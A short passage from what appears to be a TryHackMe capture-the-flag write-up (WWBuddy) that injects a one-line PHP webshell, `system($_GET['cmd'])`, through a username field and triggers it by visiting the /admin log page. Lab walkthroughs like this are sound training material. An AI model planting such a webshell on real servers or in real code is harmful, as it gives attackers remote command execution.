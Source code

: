 **Now, what if I create a user or change username with a PHP webshell payload?**
```php
<?php system($_GET["cmd"]); ?>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/WWBuddy/images/Pasted%20image%2020230106005658.png)

**Then go to `/admin` so our payload will get logged:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/WWBuddy/images/Pasted%20image%2020230106005729.png)
